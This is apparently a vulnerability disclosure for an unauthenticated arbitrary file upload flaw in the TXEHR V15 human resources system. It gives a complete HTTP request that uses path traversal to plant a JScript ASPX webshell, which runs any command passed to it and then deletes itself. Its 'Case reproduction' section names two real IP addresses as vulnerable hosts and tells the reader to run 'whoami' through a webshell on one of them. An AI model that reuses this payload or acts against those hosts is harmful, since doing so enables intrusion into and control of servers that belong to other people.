

# introduce

​	TXEHR V15 is a human resource management software solution designed specifically for modern enterprises, aiming to improve the efficiency and level of enterprise human resource management through advanced information technology. The system integrates core modules such as organizational personnel, senior management, salary accounting, recruitment configuration, training and development, and performance management, and provides flexible configuration options and powerful data analysis capabilities to meet the needs of different enterprise sizes and industry characteristics.

# Vulnerability description

​	There is a file upload vulnerability in the TXEHR V15 hdlUploadFile.ahx interface of the shared human resources management system. Unauthenticated attackers can use this vulnerability to execute code on the server side, write backdoors, obtain server privileges, and control the entire web server.

# Principle of Vulnerability

​	The affected version of the/MobileService/Web/Handler/hdlUploadFile.ahx interface has an arbitrary file upload vulnerability, allowing unauthorized attackers to remotely execute arbitrary code on the target server by uploading malicious files.

```
POST /MobileService/Web/Handler/hdlUploadFile.ashx?puser=../../../Style/rce HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.2558.72 Safari/537.36
Content-Type: multipart/form-data;boundary =---------------------------142851345723692939351758052805
Connection: close
 
-----------------------------142851345723692939351758052805
Content-Disposition: form-data; name="Filedata"; filename="rce.aspx"
Content-Type: text/plain
 
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
-----------------------------142851345723692939351758052805--

```

# Case reproduction


### Case one:

https://183.238.163.115:8008/


You can access https://183.238.163.115:8008/Style/rce.aspx?cmd=whoami Please try executing the whoami system command. Note that if the other party has protective equipment (RASP), the webshell may be deleted later


### Case two:

http://120.234.136.188:9009/`




# The affected version

V15